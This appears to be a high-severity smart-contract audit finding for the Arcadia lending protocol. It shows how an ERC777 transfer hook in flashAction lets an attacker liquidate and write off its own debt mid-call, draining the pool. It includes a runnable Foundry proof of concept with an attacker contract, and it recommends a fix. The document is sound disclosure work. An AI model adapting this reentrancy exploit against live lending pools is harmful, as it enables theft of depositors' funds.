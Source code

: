 Square Pickle Wren

high

# Lending pools with ERC777 as an underlying asset can be drained

## Summary
Lending pools that have an ERC777 token as an underlying asset can be drained via [LendingPool::flashAction()](https://github.com/sherlock-audit/2023-12-arcadia/blob/main/lending-v2/src/LendingPool.sol#L529).

## Vulnerability Detail
The function [LendingPool::flashAction()](https://github.com/sherlock-audit/2023-12-arcadia/blob/main/lending-v2/src/LendingPool.sol#L529) first mints debt shares to the account, then transfers the underlying token to the `actionTarget` and finally calls [AccountV1::flashActionByCreditor()](https://github.com/sherlock-audit/2023-12-arcadia/blob/main/accounts-v2/src/accounts/AccountV1.sol#L723):
```solidity
function flashAction(uint256 amountBorrowed, address account, address actionTarget, bytes calldata actionData, bytes3 referrer) external whenBorrowNotPaused processInterests {
    ...
    _deposit(amountBorrowedWithFee, account);
    ...
    asset.safeTransfer(actionTarget, amountBorrowed);
    ...
    uint256 accountVersion = IAccount(account).flashActionByCreditor(actionTarget, actionData);
    ...
}
```

After the tokens have been sent to `actionTarget` via [asset.safeTransfer(actionTarget, amountBorrowed)](https://github.com/sherlock-audit/2023-12-arcadia/blob/main/lending-v2/src/LendingPool.sol#L567), the [actionTarget::tokensReceived()](https://eips.ethereum.org/EIPS/eip-777#hooks) hook is called by the ERC777 token and the `actionTarget` takes control of the call flow, at this point the state is the following:
- `account` has `amountBorrowed` amount of debt
- `account` has no collateral 
- `actionTarget` has `amountBorrowed` tokens

Because `account` has debt but no collateral, it's considered by the protocol as liquidatable. The `actionTarget` can:
1. Call [Liquidator::liquidateAccount()](https://github.com/sherlock-audit/2023-12-arcadia/blob/main/lending-v2/src/Liquidator.sol#L199), which will put the account up for auction
2. Call [Liquidator::endAuction()](https://github.com/sherlock-audit/2023-12-arcadia/blob/main/lending-v2/src/Liquidator.sol#L405), which will end the auction immediately and will write off all the current debt of the account as bad debt

After this `actionTarget` returns and the call to [AccountV1::flashActionByCreditor()](https://github.com/sherlock-audit/2023-12-arcadia/blob/main/accounts-v2/src/accounts/AccountV1.sol#L723) gets executed, which will succeed because `account` will be healthy since it has no debt.

The end result is that `actionTarget` kept all of the borrowed tokens and effectively stole liquidity from the pool.

### POC
I wrote a runnable POC that requires some setup to work:
1. Add the following function to `lending-v2/lib/accounts-v2/test/utils/mocks/tokens/ERC20MOCK.sol` to simulate a ERC777 token:
```solidity
function transfer(address to, uint256 amount) public override returns (bool) {
    super.transfer(to, amount);
    to.call(abi.encodeWithSelector(bytes4(keccak256("customCallback()"))));
    return true;
}
```
2. Add the following interface and contract in `lending-v2/test/fuzz/LendingPool/FlashAction.fuzz.t.sol` (I hardcoded the liquidator and account contract addresses for simplicity, might need to adjust them):
```solidity
interface ILiquidator {
    function liquidateAccount(address account) external;
    function endAuction(address account) external;
}
contract CustomActionTarget {
    function executeAction(bytes calldata actionData) external returns (ActionData memory) {
        (ActionData memory depositData, address[] memory to, bytes[] memory data) = abi.decode(actionData, (ActionData, address[], bytes[]));
        return depositData;
    }

    function customCallback() external {
        //Liquidate the account and end the auction right after
        //Liquidator address                                                   //Account address
        ILiquidator(0x04E25fA0D07EA7A8231986B952556fE303c44A11).liquidateAccount(0x9a329f05fF47Cb3d812B241f36493A9eeBc4aba5);
        ILiquidator(0x04E25fA0D07EA7A8231986B952556fE303c44A11).endAuction(0x9a329f05fF47Cb3d812B241f36493A9eeBc4aba5);
    }
}
```
3. Add the following function to `lending-v2/test/fuzz/LendingPool/FlashAction.fuzz.t.sol`:
```solidity
function testSuccessFlashActionDrainPool() public {
    //The lending pool:
    //- has as underlying asset a ERC777 token
    //- has `1000e18` tokens of liquidity provided by a liquidity providers
    vm.prank(users.liquidityProvider);
    mockERC20.stable1.approve(address(pool), type(uint256).max);
    vm.prank(address(srTranche));
    pool.depositInLendingPool(1000e18, users.liquidityProvider);

    //The account `proxyAccount`, owned by `users.accountOwner`:
    //- has set as a creditor the lending pool
    //- has no collateral
    //
    //`users.accountOwner` deploys a `CustomActionTarget`, when `flashAction` transfers the ERC777 token an external call to the `CustomActionTarget` will be executed which will:
    //- Start a liquidation on `proxyAccount`
    //- End the auction immediately after
    CustomActionTarget actionTarget = new CustomActionTarget();
    vm.prank(users.accountOwner);
    pool.flashAction(1000e18, address(proxyAccount), address(actionTarget), callData, emptyBytes3);

    //`actionTarget` has all the funds and the pool is empty
    assertEq(mockERC20.stable1.balanceOf(address(actionTarget)), 1000e18);
    assertEq(mockERC20.stable1.balanceOf(address(pool)), 0);
}
```

Run the test with `forge test --match-test testSuccessFlashActionDrainPool`.

## Impact
Any lending pool with a fully compliant ERC777 token as an underlying asset can be drained. 

## Code Snippet

## Tool used

Manual Review

## Recommendation
Execute the token transfer to the `actionTarget` inside [AccountV1::flashActionByCreditor()](https://github.com/sherlock-audit/2023-12-arcadia/blob/main/accounts-v2/src/accounts/AccountV1.sol#L723), this way the `nonReentrant` modifier of [AccountV1::flashActionByCreditor()](https://github.com/sherlock-audit/2023-12-arcadia/blob/main/accounts-v2/src/accounts/AccountV1.sol#L723) will block the attack because a downstream call of [Liquidator::liquidateAccount()](https://github.com/sherlock-audit/2023-12-arcadia/blob/main/lending-v2/src/Liquidator.sol#L199) will execute [AccountV1::startLiquidation()](https://github.com/sherlock-audit/2023-12-arcadia/blob/main/accounts-v2/src/accounts/AccountV1.sol#L519) which also has a `nonReentrant` modifier.